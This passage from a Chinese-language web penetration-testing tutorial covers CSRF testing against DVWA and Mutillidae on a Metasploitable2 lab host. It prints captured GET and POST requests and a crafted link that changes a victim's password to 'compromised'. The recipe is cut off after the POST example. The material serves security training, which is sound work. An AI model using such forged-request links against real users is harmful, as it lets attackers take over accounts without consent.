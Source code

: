 sqlmap 能够接受捕获的请求，来解析请求的内容并是被任何可测试的参数。这让 sqlmap 能够高效执行，而不需要花费额外的经历来传递攻击所需的所有参数。

## 7.17 自动化 CSRF 测试

跨站请求伪造（CSRF）是最难以理解的 Web 应用漏洞之一。无论如何，不能够识别这类漏洞会危害 Web 应用和它的用户。这个秘籍中，我们会讨论如何测试 GET 和 POST 方法中的 CSRF 漏洞。

### 准备

为了对目标执行 CSRF 测试，你需要拥有运行一个或多个含有 CSRF 漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

CSRF 可能会出现在 GET 或 POST 方法的事务中，DVWA 提供了 GET 方法 CSRF 漏洞的一个良好示例。应用允许用户通过 GET 方法提交新的值两次来更新密码。

```
GET /dvwa/vulnerabilities/csrf/?password_new=password&password_ conf=password&Change=Change HTTP/1.1 
Host: 172.16.36.135 User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/dvwa/vulnerabilities/csrf/ 
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c 
```

由于缺少 CSRF 控制，我们尝试利用这个漏洞。如果 Web 应用的用户被引诱来访问某个 URL，其中含有预先配置的`password_ new `和`password_ conf`值，攻击者就能强迫受害者将密码修改为攻击者的选择。下面的 URL 是个利用的示例。如果受害者访问了这个链接，它们的密码会被修改为`compromised`。

```
http://172.16.36.135/dvwa/vulnerabilities/csrf/?password_ new=compromised&password_conf=compromised&Change=Change#
```

但是，这种可以简单利用的 CSRF 漏洞很少存在。这是因为多数开发者对安全拥有起码的终止，不会使用 GET 方法参数来执行安全事务。POST 方法 CSRF 的一个例子是 Mutillidae  应用的 `blog`功能，像这样：

```
POST /mutillidae/index.php?page=add-to-your-blog.php HTTP/1.1 
Host: 172.16.36.135 
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/mutillidae/index.php?page=add-to-your-blog. php 
Cookie: username=Victim; uid=17; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7 b0c 
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 98

csrf-token=SecurityIsDisabled&blog_entry=This+is+my+blog+entry&add-toyour-blog-php-submit-button=Save+Blog+Entry
```
